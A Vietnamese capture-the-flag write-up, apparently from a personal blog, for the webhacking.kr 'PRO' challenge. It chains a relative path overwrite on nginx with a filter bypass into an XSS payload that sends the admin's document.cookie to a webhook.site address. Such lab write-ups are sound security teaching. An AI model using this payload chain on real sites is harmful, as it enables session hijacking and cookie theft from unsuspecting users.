









~/posts/webhacking-pro
webhacking.kr — PRO
Link challenge: http://webhacking.kr:10011/
Phân tích
Sau khi vào trang web, ngoài trừ trang report thì không bấm vào được đâu để test tính năng của web nữa,
nên em đã Ctrl + U để đọc source code:

Em thấy website dùng XMLHttpRequest để gọi API tới api.php/search cộng với một từ trong mảng
location[].

Gọi thử API theo đúng đường dẫn đó và em thấy server trả về một object chứa đúng thông tin mà website dùng để hiển thị
khi trỏ chuột vào hoth. Có lẽ đây là vị trí truyền dữ liệu duy nhất mà chúng ta kiểm soát.
Em bắt đầu chèn thử một vài path bất kỳ:



Sau khi thử vài lần em xác định được web server là nginx, dấu ngoặc < > và các ký tự
trong nó đều bị filter.
Thực sự thì rất là bế tắc. Sau khi đi xin hint thì em được hint đây là lỗi RPO, bắt đầu đi tìm hiểu về lỗi này. Sau một hồi tìm doc thì chúng ta có thể thực hiện tấn công RPO với web server nginx bằng url decoding.
Khai thác
Em bắt đầu bằng việc tạo một result giả để thay cho XMLHttpRequest() được gọi:
{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}Nếu chỉ để như vậy thì đoạn dữ liệu trả về sẽ kèm theo chữ not found:

Để xóa được chữ not found, em dựa vào việc web filter ký tự < > và dữ liệu bên
trong nó nên em đã thêm vào payload <a:
{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<aVà thế là chữ not found đã biến mất:

Giờ đến RPO:
http://webhacking.kr:10011/api.php/search/{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<a/..%2f..%2f..%2f
Vì web server là nginx nên khi em encode ký tự / thành %2f, server sẽ không decode, nhưng
payload đó được thực hiện trong JS và nó sẽ hiểu đoạn payload của em như sau:
http://webhacking.kr:10011/api.php/search/{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<a/../../../api.phpVà kết quả em nhận được là:

Lấy cookie admin
Đã RPO thành công, giờ em cần XSS để lấy cookie admin. Nhưng vấn đề ở đây là ký tự < đã bị filter và
web sẽ xóa hết những gì giữa < và >, vậy nên giờ em phải bypass ký tự <.
Sau một hồi tìm kiếm thì em sử dụng unicode và url encode để bypass: < = %5cu003c.
Payload:
{"results":[{"name":"%5cu003cimg src=a onerror=location.href='https://webhook.site/19f12290-974f-4ea8-9e5b-84af2806beff?c='+document.cookie>","terrain":"a","population":"a","diameter":"1"}]}<a/..%2f..%2f..%2f
Và vẫn giống như challenge trước T.T — em tự test trên trình duyệt thì được, nhưng khi report cho admin
thì chờ mãi không thấy cookie của admin đâu.
